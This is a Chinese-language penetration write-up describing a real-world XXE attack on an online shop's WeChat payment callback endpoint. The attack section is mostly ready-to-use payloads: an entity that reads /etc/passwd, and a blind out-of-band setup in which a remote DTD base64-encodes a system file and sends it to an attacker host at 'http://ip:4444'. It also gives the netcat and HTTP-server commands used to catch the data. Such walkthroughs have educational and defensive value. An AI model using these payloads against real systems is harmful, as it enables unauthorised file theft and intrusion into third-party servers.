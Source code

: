# -实战xxe
原理:
XXE就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。</br>
具体学习:https://xz.aliyun.com/t/3357#toc-12</br>
### 实战开始:
首先目标是一个商城网站,微信支付处存在xml传输 /plugin/payment/wechat/notify_url.php</br>
传入正常的xml进行探测:</br>
```
<?xml version="1.0"?>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>XML is the best!</description>
   </core>
</catalog>
```
返回结果</br>
![1.jpg](https://i.loli.net/2019/06/10/5cfde5e3a34b031822.jpg)</br>

正常响应</br>
传入攻击payload读取文件</br>
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd "file:///etc/passwd">]>
<foo>
        <value>&passwd;</value>
</foo>

```
也是正常响应但无回显</br>
说明此处利用应该要用 Blind OOB XXE（使用Blind XXE漏洞来构建一条外带数据(OOB)通道来读取数据）</br>
准备一台远程服务器  上面编辑好dtd文件准备被目标连接读取</br>
dtd文件内容</br>
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:4444?p=%file;'>">
```
![2.jpg](https://i.loli.net/2019/06/10/5cfdde5d4a32b42833.jpg)</br>
对目标服务器进行xxe攻击</br>
```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
![5cfde3e8869c320141.jpg.jpg](https://i.loli.net/2019/06/10/5cfde3e8869c320141.jpg)</br>
于此同时服务器开启80端口 和 监听4444端口</br>
命令如下</br>
```
nc -lvv 4444
ctrl z
bg
python -m SimpleHTTPServer 80
```
![6.jpg](https://i.loli.net/2019/06/10/5cfdde5d6b21058186.jpg)</br>
对目标发送请求，服务器收到回显</br>
![7.jpg](https://i.loli.net/2019/06/10/5cfddff85862528530.jpg)</br>
base64解码</br>
![4.jpg](https://i.loli.net/2019/06/10/5cfdde5d545e486392.jpg)</br>

xxe的危害不仅仅在于读取文件，另外还有内网主机探测,端口探测，若开启了某些协议甚至可在getshell
未完待续....
